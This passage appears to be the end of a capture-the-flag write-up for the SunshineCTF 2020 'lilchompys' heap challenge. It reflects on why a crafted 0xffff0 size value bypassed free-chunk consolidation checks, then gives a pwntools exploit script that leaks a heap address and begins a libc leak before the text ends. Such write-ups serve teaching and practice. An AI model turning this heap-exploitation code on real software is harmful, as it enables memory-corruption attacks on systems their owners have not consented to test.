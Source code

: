 ### Afterwards

I may have lucked out in my exploit overall and I think that is a shame for
all the hard work that was put in to create this challenge. I think the idea
and design is great but user stupid/luck always triumphs.

I went back a bit and looked into the free function and it looks like there
are some checks to see if the next chunk or previous chunk are free and to
consolidate them if they are, which crashes our attempt on some post tests. By
sending the 0xffff0, apparently we made it think that both chunks are in use
and to not do any other checks.

### Code

```python  
from pwn import*

DEBUG = 1  
off2 = 0x7f40

if DEBUG == 0:  
   p = process('./lilchompys')  
   offset = 0x5000  
else:  
   p = remote("chal.2020.sunshinectf.org",20003)  
   offset = 0x2000 #7-2 = 5

p.sendline('lilChompy2020!\x00\x00' + p64(0xffff0) + p64(0xffff0)
+p64(0xfffff) + p64(0xffff0))

def send(a,b):  
   p.sendlineafter(a,str(b),timeout=1)

def view():  
   send("5) S", 1)

def add(t, name):  
   send("5) Submit", 2)  
   send("8) Alligator", t)  
   send(":\n", name)

def demolish(lot):  
   send("5) S", 3)  
   send("ish:", lot)

def rename(lot, name):  
   send("5) S", 4)  
   send(":\n", lot)  
   send(":\n", name)

#leak heap address  
add(1, 'A'*16) #1  
rename(1,'')  
add(1, 'b'*16) #1  
rename(1,'\xff'*8)  
view()  
p.readuntil('\xff'*8)  
leak = p.readuntil(' (')[:-2]  
heap = u64(leak + '\x00'*(8-len(leak)))-0x60  
print hex(heap)

#leak libc  
rename(1,"")  
add(1,'a'*16)  
```